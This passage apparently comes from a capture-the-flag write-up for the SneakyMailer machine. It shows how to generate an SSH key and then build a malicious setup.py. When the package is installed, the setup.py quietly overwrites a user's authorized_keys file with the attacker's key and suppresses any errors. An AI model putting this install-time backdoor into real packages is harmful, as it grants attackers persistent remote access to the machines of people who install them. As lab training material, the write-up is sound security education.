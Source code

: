 Following [the python project packaging tutorial](https://packaging.python.org/tutorials/packaging-projects/), we simply create a setup.py file from the template and add our payload. For the payload, I have chosen to simply overwrite the authorized_keys file of the user low.

For this we have to generate a ssh-key.

```bash
root@darkness:~# ssh-keygen -f id_rsa -N ""
Generating public/private rsa key pair.
Your identification has been saved in id_rsa
Your public key has been saved in id_rsa.pub
The key fingerprint is:
SHA256:F16ijN8tpRiGxyP8g9L2B5ohRIOkoZRK5KULQTv8VFw root@darkness
The key's randomart image is:
+---[RSA 3072]----+
|==oo...E         |
|=*= +.           |
|** o .    o .    |
|o = .. = o +     |
| . o  = S o .    |
|    ...B.* +     |
|    ..++=.+ .    |
|     oo. ...     |
|        ..       |
+----[SHA256]-----+
```

Now we can add the generated ssh-key (id_rsa.pub) to the setup.py file.

```python
import setuptools

try:
  key = 'ssh-rsa AAAAB...'
  with open("/home/low/.ssh/authorized_keys","w") as f:
        f. write(key)
except:
  pass

setuptools.setup(
    name="SneakyMailer-Exploit",
    version="1.0.0",
    author="Chr0x6eOs",
    author_email="chr0x6eOs@example.com",
    description="Exploit by Chr0x6eOs",
    long_description="Exploit by Chr0xeOs that writes ssh-key to authorized_keys file",
    long_description_content_type="text/markdown",
    url="https://github.com/pypa/sampleproject",
    packages=setuptools.find_packages(),
    classifiers=[
        "Programming Language :: Python :: 3",
        "License :: OSI Approved :: MIT License",
        "Operating System :: OS Independent",
    ],
)
```
